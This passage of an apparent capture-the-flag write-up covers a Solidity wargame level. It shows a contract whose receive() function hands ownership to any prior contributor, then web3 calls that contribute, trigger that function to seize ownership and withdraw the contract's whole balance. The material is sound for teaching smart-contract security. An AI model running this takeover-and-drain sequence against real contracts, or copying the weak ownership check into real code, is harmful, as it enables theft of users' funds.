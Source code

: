 ```sol
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

> #### Solution: 
> A flaw in this contract is that, it's fallback function is directly assigning the owner with weak  authentication. 
>  - In order to become the owner we need to make a contribution to the contract by calling the `contribute()` function to pass the checks in the fallback function.
> 
>  - Then we have to call the fallback function to become the owner of the contract.
>  - We can then simply call the `withdraw()` function to withdraw all the funds of the contract, which eventually reduces the contract's balance to 0.
> 
> ```sol
> //to make a contribution
> await web3.eth.sendTransaction({
>     from: player,
>     to: instance,
>     value: web3.utils.toWei("0.0001"),
>     data: web3.eth.abi.encodeFunctionSignature("contribute()")
> });
> 
> //calling fallback function
> await web3.eth.sendTransaction({
>     from: player,
>     to: instance,
>     value: web3.utils.toWei("0.0001")
> });
> 
> //calling withdraw function
> await contract.withdraw();
> ```
